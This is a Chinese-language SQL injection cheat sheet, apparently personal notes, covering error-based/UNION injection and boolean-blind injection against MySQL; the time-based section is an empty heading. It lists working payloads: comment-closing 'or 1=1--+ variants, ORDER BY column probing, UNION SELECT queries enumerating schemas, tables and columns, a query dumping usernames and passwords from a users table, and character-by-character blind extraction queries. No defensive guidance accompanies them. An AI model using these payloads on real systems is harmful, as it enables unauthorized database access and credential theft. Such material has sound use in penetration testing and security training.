 ### 报错注入
1.**常用的注释payload**
```
	or 1=1--+
	'or 1=1--+
	"or 1=1--+
	)or 1=1--+
	')or 1=1--+
	") or 1=1--+
	"))or 1=1--+
	--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
```
2. **查询字段数目**
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目
```
 order by 10 --+ (二分法)
```

3. **联合查询**
UNION SELECT 联合查询，手工注入经典语句，作用是在后面通过UNION把我们的恶意注入语句接上去，带入数据库进行查询。因为字段数目是:3,那么正规的语句如下:
```
UNION SELECT 1,2,3 --+
```
4.**获取信息**
```
version()            #MySQL版本
user()               #数据库用户名
database()           #数据库名
@@datadir            #数据库路径
@@version_compile_os #操作系统版本
```
5.**获取表名**
```
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
6.**获取列名**
```
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
7.**获取字段**
```
UNION SELECT 1,2,group_concat(id,username,password) from users --+
```
8.**总结**
```
order by –+ 判断字段数目
union select –+ 联合查询收集信息
UNION SELECT 1,2,database() –+ 查询当前数据库
UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata –+查询所有数据库
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() –+ 查询表名
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' –+ 查询列名
UNION SELECT 1,2,group_concat(id,username,password) from users –+ 查询字段值
```
### 布尔注入
```
SUBSTR(str,1,3)字符串截取
mid(str,1,3)字符串截取
ORD()转换成ascii码
Length()统计字节长度
version()查看数据库版本
database()查看数据库名
user()查看当前用户

```
1. 判断注入点
2. 获取数据库名称长度
```
and (select length (database())) = '8'
```
3. 获取数据库名称
and (select ord(substring(database(),1,1))) = 97
4.获取表总数
```
select count(table_name) from information_schema.tables where table_schema = database()
```
5. 获取表名长度
```
SELECT LENGTH (TABLE_NAME) from information_schema.tables where table_schema = DATABASE() LIMIT 0,1
```
6. 获取表名
```
SELECT ORD(SUBSTR((select(TABLE_NAME) from information_schema.tables where table_schema = DATABASE() limit 3,1),2,1))
```
获取字段总数
```
SELECT  COUNT(column_name) from information_schema.columns where table_name='users'
```
7. 获取字段长度
```
SELECT length(column_name) from information_schema.columns where table_name='users' LIMIT 0,1
```
7. 获取字段名称
select ord(SUBSTR((SELECT(COLUMN_NAME) from information_schema.columns where table_name='users' LIMIT 0,1),3,1))
8. 获取数据

### 延时注入
